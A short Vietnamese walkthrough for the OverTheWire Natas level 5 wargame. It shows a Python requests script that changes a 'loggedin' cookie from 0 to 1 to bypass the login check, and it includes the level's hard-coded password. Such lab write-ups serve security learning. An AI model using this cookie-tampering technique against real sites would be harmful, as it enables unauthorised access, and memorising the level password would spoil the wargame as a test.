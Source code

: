 # Natas5

![1](image/1.png)

- Mới vào thì thấy ngay dòng thông báo `Access disallowed. You are not logged in`

- `F12` coi thử xem có gì

![2](image/2.png)

- Ta để ý thấy dòng `loggedin=0`

- Đề nói ta chưa login, theo logic thì chuyển `loggedin=0` thành `loggedin=1` thì chắc sẽ được. bắt tay vào làm thử

- Code của mình:

```
	import requests
	import re

	username = 'natas5'
	password = 'iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq'

	url = 'http://%s.natas.labs.overthewire.org/'%username

	cookies = {
		'loggedin' : '1'
	}

	response = requests.get(url, auth = (username, password), cookies = cookies)

	print(response.text)
```

- Chỉ cần thêm thay đổi đó trong phần `cookies` là OK
